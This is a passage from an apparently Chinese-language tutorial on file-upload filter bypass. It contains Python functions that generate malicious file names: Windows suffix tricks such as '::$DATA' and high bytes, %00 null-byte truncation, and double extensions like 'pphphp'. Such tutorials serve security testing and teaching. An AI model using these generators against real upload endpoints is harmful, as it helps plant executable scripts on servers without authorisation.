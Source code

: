 ```
# 生成0x81-0xff的字符list
def str_81_to_ff():
	res = []
	for i in range(129,256):
		str = '%x' % i
		str = '%' + str
		str = urllib.unquote(str)
		res.append(str)
	return res

windows_os = [' ','.','/','::$DATA','<','>','>>>','%20','%00'] + str_81_to_ff()
def windows_suffix_builder(suffix):
	res = []
	for s in suffix:
		for w in windows_os:
			str = '%s%s' % (s,w)
			res.append(str)
	return res
```

## 六、语言的漏洞

语言漏洞被利用于上传的有%00截断和0x00截断。它们在asp，php和jsp中都存在着。

```
def str_00_truncation(suffix,allow_suffix):
	res = []
	for i in suffix:
		str = '%s%s.%s' % (i,'%00',allow_suffix)
		res.append(str)
		str = '%s%s.%s' % (i,urllib.unquote('%00'),allow_suffix)
		res.append(str)
	return res
```

## 七、双后缀

有些站点通过对上传文件名进行删除敏感字符（php,asp,jsp等等）的方式进行过滤,例如你上传一个aphp.jpg的文件，那么上传之后就变成了a.jpg。这时就可以利用双后缀的方式上传一个a.pphphp,最终正好生成a.php。其实双后缀与中间件和操作系统无关，而是和代码逻辑有关。

针对双后缀，我们可以写个`str_double_suffix_creater(suffix)`函数，传入后缀名suffix即可生成所有的双后缀可能。

```
def str_double_suffix_creater(suffix):
	res = []
	for i in range(1,len(suffix)):
		str = list(suffix)
		str.insert(i,suffix)
		res.append("".join(str))
	return res
```

在`list_double_suffix_creater(suffix)`函数基础上，
可以编写`list_double_suffix_creater(list_suffix)`来为一个list生成所有双后缀可能。
